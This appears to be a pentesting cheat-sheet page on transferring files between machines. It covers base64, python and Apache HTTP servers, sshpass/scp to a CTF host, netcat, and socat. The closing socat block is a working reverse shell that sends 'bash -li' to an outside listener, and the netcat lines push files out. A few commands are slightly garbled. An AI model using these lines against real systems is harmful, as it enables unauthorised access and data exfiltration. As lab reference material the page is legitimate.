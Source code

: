 ```yaml
---
description: On Construction
---
```


# 🐦 File Transfer

**Useful BInaries:**

{% embed url="https://github.com/andrew-d/static-binaries" %}

**Base64**

```bash
# Pipe to base64:
cat <file> | base64
# Save it in to a file
echo "texto_base_64" | base64 -d > <file>
```

**Http**

```bash
# Python
# Localy: 
python -m http.server 
# Remotely:
curl -o IP:Port/file

# Apache
# localy:
cp archivo.txt /var/www/html
# Remotely
wget IP/Port/file 
curl -o IP:Port/file
#Localy
python -m http.server 80
#Remotely
wget <ip>/<archivo>
```

**SSH**

```c
#scapy
shpass -p <password> scp <filename> admin@2million.htb:/tmp/
```

**Netcat**

```bash
# Target Machine
nc <Target_IP> <port> < file
# Locally
nc -lvp <Local_IP> > file

#Check hashes to avoid file corruption
md5sum <file>
#Use cat command
cat <file> | nc Target_IP 443
```

**Socat**

[socat](http://www.dest-unreach.org/socat/doc/socat.html) is like netcat on steroids and is a very powerfull networking swiss-army knife. Socat can be used to pass full TTY’s over TCP connections.

```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444
#Target machine:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444


```
